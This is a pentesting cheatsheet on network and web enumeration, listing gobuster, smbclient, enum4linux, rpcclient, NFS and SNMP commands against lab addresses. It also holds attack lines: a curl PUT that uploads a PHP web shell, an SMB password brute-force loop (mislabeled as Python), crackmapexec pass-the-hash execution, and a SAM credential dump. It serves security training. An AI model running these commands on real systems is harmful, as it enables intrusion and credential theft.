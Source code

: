 ```yaml
---
title: Enumeration
excerpt: "This is a guide for enumeration"
last_modified_at: 13-01-2022
categories:
- cheatsheet
tags:  
- pentest
- methodologies
- recon
- enumeration
---
```


# Enumeration  

## Brute force directory/pages/files
```bash
gobuster dir -e -u 172.16.1.10/ -w /usr/share/wordlists/dirb/big.txt -s "200,301,302,401" .

gobuster dir -e -u http://172.16.1.10/turismo -w /usr/share/wordlists/dirb/small.txt -x .php,.txt,.sql,.bkp  #Search by extensions.

gobuster dir -e -u 192.168.0.7 -w wordlist -x .php -c cookie # Pass cookie
```  

Another tools:
* Dirsearch
* Dirb
* Dirbusters  

File extensions to search:
    - Web :.pl,.cgi,.sh,.php,.jsp,.asp,.aspx,.js,.html,.nm
    - Backups:.bkp,.bak,.sql
    - Files:.pdf,.txt,.conf,.xml  

Robots.txt/sitemap.xml are importants file that contains directories that are not indexed.

## Methods allowed
```bash
curl -v -X OPTIONS http://172.16.1.10/ # Will show all methods
```  

Put method
```bash
curl -v -X PUT -d "<?php system(\$_GET["cmd"]); ?>" http://172.16.1.10/webdav/shell.php
```  

## FTP
Commons credentials:
* User:anonymous, pass:anonymous  


## SMB
Permit share directories and files. Port 139 -> NetBIOS, port 445 -> SMB over TCP
Links:  
* [Hacktricks SMB](https://book.hacktricks.xyz/pentesting/pentesting-smb)

### Windows
```bash
nbtstat -A 172.16.1.4 # show name, group, etc...

net view \\172.16.1.5 # Try to connect

net view \\172.16.1.5 "" u:"" # Null session logon

net use h: \\172.16.1.5\opt # Mount the folder in h:

nbtstat -c # Cache of all old connections
```  
```python
#Python brute force
for /f %i in (passwords.txt) do net use \\172.16.1.4 %i /u:john
```  

### Linux
```bash
nbtscan -r 172.16.1.0/24 # Search in range

smbclient  -L \\172.16.1.5 -N # Connect in anonymous mode

smbclient   //172.16.1.5/_DOCS -N # Connect in a directory

smbclient  -L \\172.16.1.5 -N —option='client min protocol=NT1' # Sometimes can have a version incompatibility with older versions

crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
crackmapexec smb 192.168.10.11 -u Administrator -p 'password' -x whoami #Execute cmd
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
```  
Automatic enumeration : [enum4linux](https://github.com/CiscoCXSecurity/enum4linux)
```bash
enum4linux -U 172.16.1.5 # Without users

enum4linux -a 172.16.1.5 # All
```  
## RPC Remote proccedure call
API to call commands in another machines.  
```bash
rpcclient -U "" -N 172.16.1.5 # Anonymous login
# After connect
enumdomusers # Enumerate users
queryuser jonh
```  
## NFS Network file system 
Protocol to share files. Port 2049
```bash
rpcinfo -p 172.16.1.5 | grep nfs # Check versions

showmount -e 172.16.1.5 # Show shared

mount -t nfs -o nfsverscat=2 172.16.1.5:/ /tmp/nfs #Mount the nfs
```  

## SNMP Simple Network Management protocol
Protocol used to monitor different devices in the network (like routers, switches, printers, IoTs...). Ports: 161,162,10161,10162/UDP
Links:  
* [Hacktricks snmp](https://book.hacktricks.xyz/pentesting/pentesting-snmp)
* [objectid list](https://www.alvestrand.no/objectid/1.3.6.1.2)

```bash
onesixtyone -c comu.txt 172.16.1.0/24 # Search by open hosts with communities

snmpwalk -c public -v1 172.16.1.4 1.3.6.1.4.1.77.1.2.25  # Search with public community and specific code

snmp-check 172.16.1.4 -c public # Show info of host
```  

## WAF Web application firewall

```bash
WAFW00F google.com
```